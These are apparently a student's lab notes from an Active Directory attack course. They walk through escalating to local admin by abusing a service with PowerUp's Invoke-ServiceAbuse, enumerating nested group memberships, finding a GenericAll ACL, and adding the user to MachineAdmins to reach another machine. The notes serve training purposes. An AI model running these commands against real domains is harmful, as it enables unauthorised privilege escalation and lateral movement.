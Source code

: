 
Task 
• Exploit a service on studentx and elevate privileges to local administrator. 
• Identify a machine in the domain where studentuserx has local administrative access due to group membership.


Let's use PowerUp from InvisiShell. Remember to run it from a new process and do not use the same one where PowerView is loaded:

```
. C:\AD\Tools\PowerUp.ps1
```

```
Invoke-AllChecks
```

![[Pasted image 20250313212145.png]]

Let’s use the abuse function for the service permission issue and add our current domain user to the local Administrators group.

```
Invoke-ServiceAbuse -Name ALG -UserName us\studentuser139 - Verbose
```

![[Pasted image 20250313213101.png]]

After that logoff and Login

Now, we need to identify a machine in the domain where studentuser139 has local administrative access. Usually hunting for local administrator privileges is the way to go. Using PowerView:

```
Find-LocalAdminAccess -Verbose
```

we got no output

Let's enumerate group memberships for studentuserx. The ActiveDirectory module command GetADPrinicpalGroupMemebsrhip does not provide ability to recursively look for group membership. Therefore, we can use the following simple PowerShell code from InvisiShell. Note that the code uses the ActiveDirectory module so that should be imported first:

```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) { $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname) $groups if ($groups.count -gt 0) { foreach ($group in $groups) { Get-ADPrincipalGroupMembershipRecursive $group } } }
```

```
Get-ADPrincipalGroupMembershipRecursive 'studentuser139'
```

![[Pasted image 20250313214025.png]]

Let's check if any of the above groups has interesting ACL entries. After trying for multiple groups, we will find out that us\managers group does have some interesting permissions. Using PowerView from InvisiShell:

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}
```

if we have a look at the machineadmins group, its description explains a lot. Using ActiveDirectory module:

![[Pasted image 20250313222137.png]]

Let's add studentuser139 to machineadmins group as we have GenericAll permissions on the group. Using AD module:

```
Add-ADGroupMember -Identity MachineAdmins -Members studentuser139 -Verbose
```

![[Pasted image 20250313222522.png]]

Now, check if we have administrative access to the us-mgmt machine in the Mgmt OU it is the only machine in that OU). Note that we need to clear our existing TGT so that the new group membership is assigned in the new TGT. So, a logoff and logon may be required. We can use winrs for accessing us-mgmt:

![[Pasted image 20250314001822.png]]


